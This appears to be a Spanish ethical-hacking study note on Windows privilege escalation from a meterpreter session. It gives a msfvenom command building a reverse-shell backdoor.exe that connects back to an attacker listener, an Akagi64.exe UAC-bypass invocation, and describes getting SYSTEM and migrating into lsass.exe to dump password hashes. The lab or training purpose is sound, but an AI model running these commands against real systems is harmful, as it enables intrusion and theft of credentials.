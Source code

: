 #Windows #EscaladePrivilegios #PinguinoMario #HackingEtico 
Supongamos que estamos dentro de una sesión de meterpreter de una máquina Windows:
![[Pasted image 20230731085818.png]]
Y queremos ejecutar el comando getsystem, donde veremos que nos da error porque ha saltado el UAC:
![[Pasted image 20230731085852.png]]
Por tanto, el primer paso será generar el payload con msfvenom en formato .exe, para pasárselo a la herramienta que usaremos más tarde:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.3 LPORT=4444 -f exe > 'backdoor.exe'
```
![[Pasted image 20230731090017.png]]
Y ahora subimos este payload como también la herramienta para hacer el bypass llamada Akagi64.exe, ubicándonos en /temp porque allí tenemos permisos de escritura:
![[Pasted image 20230731092903.png]]
![[Pasted image 20230731090056.png]]
Una vez hecho esto, nos pondremos otra vez en escucha con metasploit para recibir esta nueva conexión:
![[Pasted image 20230731090306.png]]
Y ahora desde la otra sesión de meterpreter, ejecutamos el Akagi64.exe pasándole la backdoor.exe que hemos subido anteriormente:
```bash
Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
```
Recibimos la conexión y ahora sí podemos ejecutar el comando getsystem:
![[Pasted image 20230731090426.png]]
Y también podemos migrarnos al proceso lsass.exe para dumpear hashes:
![[Pasted image 20230731090942.png]]
![[Pasted image 20230731090952.png]]
